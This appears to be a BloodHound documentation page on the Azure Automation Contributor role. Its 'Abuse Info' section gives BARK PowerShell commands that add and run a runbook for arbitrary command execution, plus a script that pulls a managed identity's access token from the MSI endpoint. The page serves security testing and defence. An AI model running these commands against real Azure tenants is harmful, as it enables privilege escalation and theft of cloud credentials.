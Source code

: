 ---
title: AZAutomationContributor
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg"/> 


The Azure Automation Contributor role grants full control of the target Azure Automation Account. This includes the ability to execute arbitrary commands on the Automation Account.

## Abuse Info

You can use BARK’s New-AzureAutomationAccountRunBook and Get-AzureAutomationAccountRunBookOutput functions to execute arbitrary commands against the target Automation Account.

These functions require you to supply an Azure Resource Manager scoped JWT associated with the principal that has the privilege to add or modify and run Automation Account run books. There are several ways to acquire a JWT. For example, you may use BARK’s Get-ARMTokenWithRefreshToken to acquire an Azure RM-scoped JWT by supplying a refresh token:

```bash
$ARMToken = Get-ARMTokenWithRefreshToken `
    -RefreshToken "0.ARwA6WgJJ9X2qk..." `
    -TenantID "contoso.onmicrosoft.com"
```

Now you can use BARK’s New-AzureAutomationAccountRunBook function to add a new runbook to the target Automation Account, specifying a command to execute using the -Script parameter:

```bash
New-AzureAutomationAccountRunBook `
    -Token $ARMToken `
    -RunBookName "MyCoolRunBook" `
    -AutomationAccountPath "https://management.azure.com/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourceGroups/AutomationAccts/providers/Microsoft.Automation/automationAccounts/MyCoolAutomationAccount" `
    -Script "whoami"
```
After adding the new runbook, you must execute it and fetch its output. You can do this automatically with BARK’s Get-AzureAutomationAccountRunBookOutput function:

```bash
Get-AzureAutomationAccountRunBookOutput `
    -Token $ARMToken `
    -RunBookName "MyCoolRunBook" `
    -AutomationAccountPath "https://management.azure.com/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourceGroups/AutomationAccts/providers/Microsoft.Automation/automationAccounts/MyCoolAutomationAccount"
```
If the Automation Account has a managed identity assignment, you can use these two functions to retrieve a JWT for the service principal like this:

```bash
$Script = $tokenAuthURI = $env:MSI_ENDPOINT + "?resource=https://graph.microsoft.com/&api-version=2017-09-01"; $tokenResponse = Invoke-RestMethod -Method Get -Headers @{"Secret"="$env:MSI_SECRET"} -Uri $tokenAuthURI; $tokenResponse.access_token
New-AzureAutomationAccountRunBook -Token $ARMToken -RunBookName "MyCoolRunBook" -AutomationAccountPath "https://management.azure.com/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourceGroups/AutomationAccts/providers/Microsoft.Automation/automationAccounts/MyCoolAutomationAccount" -Script $Script
Get-AzureAutomationAccountRunBookOutput -Token $ARMToken -RunBookName "MyCoolRunBook" -AutomationAccountPath "https://management.azure.com/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourceGroups/AutomationAccts/providers/Microsoft.Automation/automationAccounts/MyCoolAutomationAccount"
```
If successful, the output will include a JWT for the managed identity service principal.

## Opsec Considerations

This will depend on which particular abuse you perform, but in general Azure will create a log event for each abuse.

## References
* [https://github.com/BloodHoundAD/BARK](https://github.com/BloodHoundAD/BARK)
* [https://posts.specterops.io/managed-identity-attack-paths-part-1-automation-accounts-82667d17187a](https://posts.specterops.io/managed-identity-attack-paths-part-1-automation-accounts-82667d17187a)
